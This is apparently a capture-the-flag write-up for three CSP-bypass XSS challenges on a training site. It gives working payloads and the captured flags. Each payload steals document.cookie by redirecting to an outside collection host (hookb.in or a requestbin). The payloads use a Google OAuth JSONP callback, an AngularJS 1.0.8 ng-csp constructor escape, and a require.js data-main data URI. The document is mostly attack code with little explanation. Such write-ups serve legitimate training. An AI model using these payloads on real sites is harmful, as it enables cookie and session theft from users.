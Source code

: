 # babycsp
> https://babycsp.training.ctf.necst.it/
```javascript
"><script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href='https://hookb.in/9XwRzarbRDS600eMoL7d?'%2bdocument.cookie;"></script>
```

**flag=flag{4re_yo0_s0_sure_csp_1s_useful?}**
# csp
```javascript
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script> <div ng-app ng-csp id=p ng-click={{constructor.constructor("window.location.href='https://requestbin.training.ctf.necst.it/1a2ro011?cookie='+document.cookie")()}}>
```

**flag=flag{th1s1s_how_w3_byp4ss3d_csp}**

# strict csp
```javascript
<script data-main="data:1,window.location.href='https://requestbin.training.ctf.necst.it/x57dvjx5?cookie='+document.cookie" src='require.js'></script>
```
**flag{th4t-w4s3nt-s0-str1ct-w4snt-it?}**
